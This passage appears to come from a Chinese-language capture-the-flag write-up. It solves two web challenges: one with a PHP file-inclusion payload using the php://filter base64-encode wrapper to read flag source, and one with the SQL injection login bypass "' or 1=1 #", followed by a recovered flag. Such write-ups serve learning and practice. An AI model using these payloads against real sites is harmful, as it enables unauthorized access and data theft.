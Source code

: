在文件上传用了不少时间，除了正常图片其他都没上传成功，根据 op 后的传不同的值返回不同页面，可能存在文件包含

```
http://123.206.31.85:10003/?op=f   返回Error  no such page
http://123.206.31.85:10003/?op=flag  返回正常 即存在flag页面
```

php伪协议   参考这两篇 篇文章讲的php伪协议https://www.freebuf.com/column/148886.html

https://blog.csdn.net/Ni9htMar3/article/details/69812306?locationNum=2&fps=1

```
?op=php://filter/read=convert.base64-encode/resource=flag  base64解码后即可得到flag
```



#### 9、web4   ok

 http://123.206.31.85:10004/

#### ![1555855828525](img/1555855828525.png)

![1556460068413](img/1556460068413.png)

```
万能密码登录    ' or 1=1 #  在用户名和密码输入均可
flag{7ae7de60f14eb3cbd9403a0c4328598d}
```
